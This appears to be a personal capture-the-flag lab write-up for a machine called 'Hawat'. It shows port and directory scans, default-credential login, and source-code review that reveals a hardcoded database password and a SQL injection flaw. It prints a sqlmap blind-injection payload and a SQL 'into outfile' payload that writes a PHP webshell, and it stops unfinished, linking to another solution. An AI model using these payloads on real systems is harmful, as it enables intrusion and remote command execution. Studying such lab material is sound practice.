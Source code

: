 ```yaml
---
description: Broken for me.
---
```


# Hawat

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.157.147
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-14 12:15 +08
Warning: 192.168.157.147 giving up on port because retransmission cap hit (10).
Stats: 0:03:25 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 85.65% done; ETC: 12:19 (0:00:35 remaining)
Nmap scan report for 192.168.157.147
Host is up (0.17s latency).
Not shown: 65481 filtered tcp ports (no-response), 50 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
17445/tcp open  unknown
30455/tcp open  unknown
50080/tcp open  unknown
```

Did a detailed scan on the non HTTP ports.&#x20;

```
$ sudo nmap -p 17445,30455,50080 -sC -sV --min-rate 4000 192.168.157.147
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-14 12:19 +08
Nmap scan report for 192.168.157.147
Host is up (0.18s latency).

PORT      STATE SERVICE VERSION
17445/tcp open  unknown
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 
|     X-Content-Type-Options: nosniff
|     X-XSS-Protection: 1; mode=block
|     Cache-Control: no-cache, no-store, max-age=0, must-revalidate
|     Pragma: no-cache
|     Expires: 0
|     X-Frame-Options: DENY
|     Content-Type: text/html;charset=UTF-8
|     Content-Language: en-US
|     Date: Fri, 14 Jul 2023 04:20:05 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <title>Issue Tracker</title>
|     <link href="/css/bootstrap.min.css" rel="stylesheet" />
|     </head>
|     <body>
|     <section>
|     <div class="container mt-4">
|     <span>
|     <div>
|     href="/login" class="btn btn-primary" style="float:right">Sign In</a> 
|     href="/register" class="btn btn-primary" style="float:right;margin-right:5px">Register</a>
|     </div>
|     </span>
|     <br><br>
|     <table class="table">
|     <thead>
|     <tr>
|     <th>ID</th>
|     <th>Message</th>
|     <th>P
|   HTTPOptions: 
|     HTTP/1.1 200 
|     Allow: GET,HEAD,OPTIONS
|     X-Content-Type-Options: nosniff
|     X-XSS-Protection: 1; mode=block
|     Cache-Control: no-cache, no-store, max-age=0, must-revalidate
|     Pragma: no-cache
|     Expires: 0
|     X-Frame-Options: DENY
|     Content-Length: 0
|     Date: Fri, 14 Jul 2023 04:20:05 GMT
|     Connection: close
|   RTSPRequest: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 435
|     Date: Fri, 14 Jul 2023 04:20:05 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 
|_    Request</h1></body></html>
30455/tcp open  http    nginx 1.18.0
|_http-title: W3.CSS
|_http-server-header: nginx/1.18.0
50080/tcp open  http    Apache httpd 2.4.46 ((Unix) PHP/7.4.15)
|_http-title: W3.CSS Template
|_http-server-header: Apache/2.4.46 (Unix) PHP/7.4.15
| http-methods:
```

### Web Enum --> Source Code

Port 17445 had some kind of ticket creator:

<figure><img src="../../../.gitbook/assets/image (3548).png" alt=""><figcaption></figcaption></figure>

Default creds didn't work, so let's move on. Port 30445 just didn't load for me for some reason.&#x20;

Port 50080 shows a Pizza website:

<figure><img src="../../../.gitbook/assets/image (3717).png" alt=""><figcaption></figcaption></figure>

The website was rather static. I did a directory scan on all the ports. Port 50080 has a `/cloud` directory:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.157.147:50080 -t 100
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.157.147:50080
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/07/14 12:24:36 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 244] [--> http://192.168.157.147:50080/images/]
/4                    (Status: 301) [Size: 239] [--> http://192.168.157.147:50080/4/]
/cloud                (Status: 301) [Size: 243] [--> http://192.168.157.147:50080/cloud/]
```

When viewed, it shows a login page:

<figure><img src="../../../.gitbook/assets/image (3549).png" alt=""><figcaption></figcaption></figure>

We can login with `admin:admin`. There, we see an `issuetracker.zip` file:

<figure><img src="../../../.gitbook/assets/image (3193).png" alt=""><figcaption></figcaption></figure>

We can download this to our Kali machine and unzip it. This would reveal source code for a website.

```
$ ll
total 32
-rw-r--r-- 1 kali kali  1495 Feb  2  2021 HELP.md
-rwxr-xr-x 1 kali kali 10070 Feb  2  2021 mvnw
-rw-r--r-- 1 kali kali  6608 Feb  2  2021 mvnw.cmd
-rw-rw-r-- 1 kali kali  2248 Feb  5  2021 pom.xml
drwxr-xr-x 4 kali kali  4096 Feb  2  2021 src
```

### Source Code Analysis --> SQLI RCE

The source code was in Java and for the application running on port 17445. I looked thorugh the files and found this within `src/main/java/com/issue/tracker/issues/IssueController.java`:

```java
        @GetMapping("/issue/checkByPriority")
        public String checkByPriority(@RequestParam("priority") String priority, Model model) {
                // 
                // Custom code, need to integrate to the JPA
                //
            Properties connectionProps = new Properties();
            connectionProps.put("user", "issue_user");
            connectionProps.put("password", "ManagementInsideOld797");
        try {
                        conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/issue_tracker",connectionProps);
                    String query = "SELECT message FROM issue WHERE priority='"+priority+"'";
            System.out.println(query);
                    Statement stmt = conn.createStatement();
                    stmt.executeQuery(query);
```

This bit of code here gave us credentials, and also is vulnerable to SQL injection since the `priority` variable is not sanitsed before being passed in. I registed a user on the machine, and then proceeded to test the SQL Injection using `sqlmap`:

```
$ sqlmap -r req
---
Parameter: priority (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: priority=' AND (SELECT 3165 FROM (SELECT(SLEEP(5)))JlSD) AND 'aCou'='aCou
---
```

Normally, this should be rather easy to write a webshell using a payload like this:

```sql
' union select '<?php system($_REQUEST['cmd']); ?>' into outfile '/srv/http/cmd.php' -- -
```

However I don't know the document root, and `sqlmap` brute force doesn't seem to work. I took a hint and realised that port 30445 was supposed to host `phpinfo.php`, but it was unresponsive.&#x20;

I read the walkthrough and it shows that `/srv/http` is the document root taken from `phpinfo.php`, which would allow me to write a webshell to port 30445.

Here's a link to the supposed solution:

{% embed url="https://bing0o.github.io/posts/pg-hawat/" %}
